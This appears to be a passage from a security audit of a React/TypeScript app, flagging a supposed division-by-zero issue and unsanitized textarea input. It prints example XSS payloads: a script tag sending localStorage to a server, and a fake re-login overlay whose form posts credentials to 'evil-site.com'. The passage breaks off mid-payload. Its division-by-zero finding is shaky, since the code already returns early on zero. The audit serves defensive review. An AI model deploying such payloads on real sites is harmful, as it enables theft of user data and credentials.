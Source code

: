 **Vulnerability Location**: Lines 104-117 (Auto Balance Logic)
```typescript
const handleAutoBalance = (): void => {
  const enabledCriteria = criteria.filter(c => c.enabled);
  if (enabledCriteria.length === 0) return;
  
  const weightPerCriterion = Math.floor(100 / enabledCriteria.length);
  const remainder = 100 - (weightPerCriterion * enabledCriteria.length);
```

**Issue**: Division by zero edge case not properly handled
**Test Case**:
```typescript
// Edge case: All criteria disabled then immediately enabled
setCriteria([{id: 1, enabled: false}]);
handleToggleCriterion(1); // This could trigger autobalance before state updates
// Potential race condition with stale closure values
```

---

## 🔥 CATEGORY 2: INPUT VALIDATION & XSS VULNERABILITIES  

### 2.1 ProductFeatureParser.tsx - Code Injection Risk

**Vulnerability Location**: Lines 322-335 (Feature Input)
```typescript
<textarea
  value={rawInput}
  onChange={(e) => setRawInput(e.target.value)}
  className="w-full px-4 py-3 bg-gray-800 border border-gray-700 rounded-lg text-white placeholder-gray-500 focus:border-blue-500 focus:outline-none transition-colors resize-none"
  rows={4}
  placeholder="Enter your product features... Examples:
• AI-powered sales automation
• Real-time analytics dashboard  
• CRM integration with Salesforce
• Advanced reporting capabilities"
/>
```

**Critical Issue**: No input sanitization whatsoever

**XSS Attack Vectors**:
```typescript
// Attack Vector 1: Script injection in feature text
const maliciousInput = `
• Legitimate feature
• <script>
  // Steal user data
  fetch('/api/steal-data', {
    method: 'POST', 
    body: JSON.stringify(localStorage)
  });
  </script>
• Another feature
`;

// Attack Vector 2: HTML injection for phishing
const phishingInput = `
• Normal feature
• <div style="position:fixed;top:0;left:0;width:100vw;height:100vh;background:white;z-index:9999">
  <form action="https://evil-site.com/steal">
    <h2>Session Expired - Please Re-login</h2>
    <input name="username" placeholder="Username" />
    <input name="password" type="password" placeholder="Password" />
```